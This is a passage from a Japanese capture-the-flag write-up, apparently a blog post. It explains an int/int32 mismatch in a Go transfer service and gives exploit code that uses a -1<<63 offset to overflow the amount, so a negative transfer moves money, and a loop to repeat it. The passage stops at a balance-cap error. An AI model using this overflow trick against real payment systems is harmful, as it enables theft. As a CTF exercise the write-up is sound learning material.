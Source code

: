 1. `UserInfo.Balance`は`int32`
1. `amount`は`int`
1. 残高チェックは`int`
1. 送金額のバリデーションは`int32`
1. 上限チェックは`int32`
1. 残高の移動の演算は`int32`

ここでおもむろにREADMEの注意事項を見てみると､

> 64bitプラットフォームを対象とした問題です

なるほど｡64bitプラットフォーム上での`int`は64bitとなる｡

このことから､先程のマイナス送金は許容されること､リクエストに渡される 送金額のバリデーション､残高の移動が`int32`上の演算となることを併せて考えると､みんな大好き**オーバーフローでバグらせれば**OKっぽいですね｡

オフセットを64bitの最小値として､送金したい金額に足してやればマイナス送金で実質的に残高の移動が実現できそう｡

```go:バグれバグれバグれ
offset := -1<<63
amount := offset + 10000
r, _ := transfer(alice, bob, fmt.Sprint("%d", amount))
println(r)
// {"success": true}

bobAmount, _ := balance(bob)
println(bobAmount)
// {"balance": "10000"} ☑

aliceAmount, _ := balance(alice)
println(aliceAmount)
// {"balance": "-10000"}
```

ヨッシャ! aliceはCTFのために借金してくれ!!

# Over the boundary
さて､あとは送金しまくってフラグが得られる残高9999999を超えればよい｡
送金額のバリデーションから､1回に送れる最大金額は1000000｡
したがって､10回送金すればフラグゲット｡

```go
for i := 0; i < 10; i++ {
	r, _ := transfer(alice, bob, fmt.Sprintf("%d", amount))
	if r != `{"success": true}` {
		println(r)
		panic("failed to transfer")
	}
}
// {"error": "Balance validation fialed: 1000000"}
// failed to transfer
```

…のはずだったが､どうやら残高の上限に当たったらしい｡
なんやねん残高の上限ってこれでは5000兆円手に入っても預けられないやん…とにかく上限判定部分を見直すしかない｡
